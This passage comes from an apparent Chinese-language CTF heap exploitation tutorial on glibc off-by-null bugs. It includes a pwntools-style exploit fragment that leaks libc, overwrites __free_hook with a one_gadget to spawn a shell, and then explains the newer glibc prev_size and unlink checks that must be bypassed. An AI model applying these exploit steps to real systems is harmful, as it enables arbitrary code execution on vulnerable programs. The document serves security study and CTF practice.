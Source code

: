 ```python
    delete_chunk(0)

add_chunk(0x68, b'a'*0x60+p64(0x490)) #num 0
delete_chunk(2) #del 2
add_chunk(0x410, b'') #num 1
show_chunk(0)
libc_addr = u64Leakbase(0x3ebca0)
free_hook = libc_addr + 0x3ed8e8
li("libc_addr", libc_addr)

one_gadget = [0x4f2c5,0x4f322,0x10a38c]
add_chunk(0x68, b'a') #num 2
delete_chunk(0)
delete_chunk(2)
add_chunk(0x68, p64(free_hook))
add_chunk(0x68, b'')
add_chunk(0x68, p64(one_gadget[1]+libc_addr))
delete_chunk(0)

# gdb.attach(p)
# pause()

it()

```

## 4.新版本 off by null 转 Heap Overlapping

自 glibc-2.29 起加入了 prev_size 的检查，以上方法均已失效。不过要是能够泄露堆地址可以利用 unlink 或 house of einherjar 的思想伪造 fd 和 bk 实现堆块重叠

```c
/* consolidate backward */
if (!prev_inuse(p)) {
    prevsize = prev_size (p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    if (__glibc_unlikely (chunksize(p) != prevsize))
    	malloc_printerr ("corrupted size vs. prev_size while consolidating");
    unlink_chunk (av, p);
}
```

chunk合并需要绕过如下检查：

* prevsize 找到的 chunk 的 size 要和 prevsize 相等
* unlink：

  * ```c
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
    ```
  * ```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    ```
  * 满足 `FD->fd_nextsize == NULL`才不会进行largebin的操作
